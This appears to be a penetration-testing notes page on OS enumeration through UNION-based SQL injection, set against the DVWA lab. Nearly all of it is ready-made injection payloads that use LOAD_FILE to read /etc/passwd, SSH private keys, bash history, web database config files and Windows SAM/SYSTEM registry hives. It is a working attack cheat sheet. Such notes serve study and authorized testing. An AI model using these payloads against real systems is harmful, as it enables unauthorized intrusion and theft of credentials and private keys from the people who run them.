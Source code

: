 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - post-exploitation
  - server-side-attack
  - sql-injection
  - union
  - enumeration-and-discovery
  - privilege-escalation
  - credential-access-and-dumping
  - dvwa
---
```

# 03 - OS Enumeration

> [!IMPORTANT] Conditions
> The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
> > [!NOTE]
> > Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## 3.1 - Enumerate Database User Privileges

```sql
' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv, '\n') FROM mysql.user#

' UNION SELECT NULL, GROUP_CONCAT(user, '->', 'FILE', '->', File_priv, '\n') FROM mysql.user WHERE File_priv = 'Y' AND user = 'dvwa'#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->', GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES WHERE PRIVILEGE_TYPE LIKE 'SELECT' OR PRIVILEGE_TYPE OR 'FILE' AND GRANTEE LIKE "'dvwa'%"#
```

## 3.2 - Basic Information

### 3.2.1 - Linux

Enumerate hostname

```sql
' UNION SELECT NULL, @@HOSTNAME#

' UNION SELECT NULL, LOAD_FILE('/etc/hostname')#
```

Enumerate user accounts

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/passwd')#
```

Enumerate user groups

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/group')#
```

Local IPv4 address

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/network/interfaces')#

' UNION SELECT NULL, LOAD_FILE('/etc/sysconfig/network')#

' UNION SELECT NULL, LOAD_FILE('/etc/networks')#
```

DNS resolve and nameserver IPs

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/resolv.conf')#

' UNION SELECT NULL, LOAD_FILE('/etc/hosts')#
```

Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/profile')#

' UNION SELECT NULL, LOAD_FILE('/etc/bash.bashrc')#

' UNION SELECT NULL, LOAD_FILE('/home/<username>/.bash_profile')#

' UNION SELECT NULL, LOAD_FILE('/root/.bash_profile')#

' UNION SELECT NULL, LOAD_FILE('/home/<username>/.bashrc')#

' UNION SELECT NULL, LOAD_FILE('/root/.bashrc')#
```

Enumerate installed packages that will give you an idea of what services are installed.

```sql
' UNION SELECT NULL, LOAD_FILE('/var/log/dpkg.log')#

' UNION SELECT NULL, LOAD_FILE('/var/log/yum.log')#
```

Enumerate kernel version

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/lsb-release')#

' UNION SELECT NULL, LOAD_FILE('/etc/os-release')#

' UNION SELECT NULL, LOAD_FILE('/proc/version')#
```

### 3.2.2 - Windows

```sql
' UNION SELECT NULL, LOAD_FILE('c:/windows/win.ini')#

' UNION SELECT NULL, LOAD_FILE('c:/xampp/php/php.ini')#
```

DNS resolve and nameserver IPs

```sql
' UNION SELECT NULL, LOAD_FILE('c:/Windows/system32/drivers/etc/hosts')#
```

## 3.3 - Credentials

### 3.3.1 - Linux

Retrieve SSH keys

```sql
' UNION SELECT NULL, LOAD_FILE('/home/<username>/.ssh/id_rsa')#

' UNION SELECT NULL, LOAD_FILE('/root/.ssh/id_rsa')#
```

Retrieve database config file. You have to lookup of what web technology it's using such as, a **content management system (CMS)** like wordpress. Find the absolute path of the [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/Credentials/Config Files/Webapps/Living off the Land#^bc9e6e|database config file]] after enumeration phase for the web root directory.

```sql
' UNION SELECT NULL, LOAD_FILE('/var/www/html/dvwa/config.php')#
```

- Retrieve history commands. You can find more in the [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/Credentials/Config Files/Webapps/Living off the Land|privilege escalation credentials]] section.

```sql
' UNION SELECT NULL, LOAD_FILE('/home/<username>/.ssh/.bash_history')#

' UNION SELECT NULL, LOAD_FILE('/root/.ssh/.bash_history')#
```

### 3.3.2 - Windows

```sql
' UNION SELECT NULL, LOAD_FILE('C:/Windows/Repair/SAM')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/Repair/SYSTEM')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/security')#
           
' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/system')#

' UNION SELECT NULL, LOAD_FILE('C:/Windows/System32/config/sam')#
```

## 3.4 - Privilege Escalation

### 3.4.1 - Linux

CronJobs may contain backup files that is worth **harvesting the data**. Moreover, there is a possible attack vector to spawn a callback shell. Be on the lookout.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/crontab')#
```

## 3.5 - Config Files

### 3.5.1 - Linux

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/ssh/sshd_config')#
```

## 3.6 - Hardware

Enumerate mounted drives and network shares.

```sql
' UNION SELECT NULL, LOAD_FILE('/etc/fstab')#
```

Enumerate CPU cores

```sql
' UNION SELECT NULL, LOAD_FILE('/proc/cpuinfo')#
```

---
## References

### Linux

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Linux/Host/0xA - Users/Manual/Living off the Land|Enumeration and Discovery: Users]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Linux/Host/0xF - Log Files/Manual/Living off the Land|Enumeration and Discovery: Log Files]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Linux/Host/0xL - Operating System/Manual/Living off the Land|Enumeration and Discovery: System and Kernel Version]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Linux/Host/0xC - Scheduled Tasks/Cron Job/Manual/Living off the Land|Enumeration and Discovery: Cron Job]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Linux/Local Privilege Escalation/Credentials/Config Files/Webapps/Living off the Land|Privilege Escalation: Content Management System (CMS)]]

### Windows

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xB - Networking/IP Address/Manual/Living off the Land|Enumeration and Discovery: IP Address]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x03 - OS Credential Dumping/Windows/Host/Registry/Hashdump/Manual/Living off the Land|Credential Access and Dumping: Hashdump]]